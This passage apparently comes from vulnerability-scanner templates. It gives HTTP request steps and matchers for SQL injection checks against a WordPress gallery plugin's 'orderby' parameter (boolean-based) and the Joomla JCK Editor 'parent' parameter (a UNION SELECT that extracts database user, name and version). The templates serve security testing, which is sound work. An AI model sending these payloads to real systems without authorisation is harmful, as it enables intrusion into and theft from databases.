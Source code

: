 ```

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=zm_gallery&orderby=(SELECT%20(CASE%20WHEN%20(7422=7422)%20THEN%200x6e616d65%20ELSE%20(SELECT%203211%20UNION%20SELECT%208682)%20END))&order=desc HTTP/1.1
Host: {{Hostname}}

```
### Step - 3
```
GET /wp-admin/admin.php?page=zm_gallery&orderby=(SELECT%20(CASE%20WHEN%20(7422=7421)%20THEN%200x6e616d65%20ELSE%20(SELECT%203211%20UNION%20SELECT%208682)%20END))&order=desc HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - dsl**
- dsl
    1. status_code_1 == 302 && status_code_2 == 200 && status_code_3 == 200
    2. contains(body_2, "[zm_gallery id=")
    3. contains(body_2, "<th scope=\"row\" class=\"check-column\">")
    4. !contains(body_3, "<th scope=\"row\" class=\"check-column\">")
- condition - and

---
# Joomla! JCK Editor SQL Injection
## Description
- The JCK Editor component 6.4.4 for Joomla! allows SQL Injection via the jtreelink/dialogs/links.php parent parameter.
- severity - critical
- tags - cve,cve2018,packetstorm,edb,joomla,sqli
## Requests
### Step - 1
```
GET /plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent="%20UNION%20SELECT%20NULL,NULL,CONCAT_WS(0x203a20,USER(),DATABASE(),VERSION(),0x6e75636c65692d74656d706c617465),NULL,NULL,NULL,NULL,NULL--%20aa HTTP/1.1
Host: {{Hostname}}
Referer: {{BaseURL}}

```
### Matchers
